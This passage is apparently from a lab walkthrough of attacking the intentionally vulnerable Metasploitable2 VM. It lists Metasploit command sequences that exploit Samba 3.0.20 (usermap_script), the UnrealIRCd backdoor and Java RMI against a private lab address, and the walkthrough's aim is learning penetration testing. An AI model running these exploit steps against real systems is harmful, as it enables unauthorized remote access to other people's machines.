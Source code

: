 `smbclient //192.168.79.179/tmp`

{% img  /images/blog/misc/metasploitable2/Selection_007.png   [title manually exploit [alt text]] %}



since the samba version is 3.0.20, I found this module:


`exploit/multi/samba/usermap_script`

{% img  /images/blog/misc/metasploitable2/Selection_022.png   [title manually exploit [alt text]] %}


```
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > set rhost 192.168.79.179
msf exploit(usermap_script) > exploit

```

{% img  /images/blog/misc/metasploitable2/Selection_023.png   [title manually exploit [alt text]] %}


### Unreal ircd exploit

`msf > search unreal ircd`

{% img  /images/blog/misc/metasploitable2/Selection_008.png   [title manually exploit [alt text]] %}

same version



```
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
msf exploit(unreal_ircd_3281_backdoor) > set rhost 192.168.79.179
msf exploit(unreal_ircd_3281_backdoor) > exploit
```

{% img  /images/blog/misc/metasploitable2/Selection_009.png   [title manually exploit [alt text]] %}


### Java-rmi (port 1099)

Nmap shows port 1099 rmiregistry GNU Classpath grmiregistry

in metasploit search rmiregistry, got one exploit

`exploit/multi/misc/java_rmi_server`

```
msf > use exploit/multi/misc/java_rmi_server
msf exploit(java_rmi_server) > set rhost 192.168.79.17
msf exploit(java_rmi_server) > exploit
msf exploit(java_rmi_server) > sessions -i 1
```
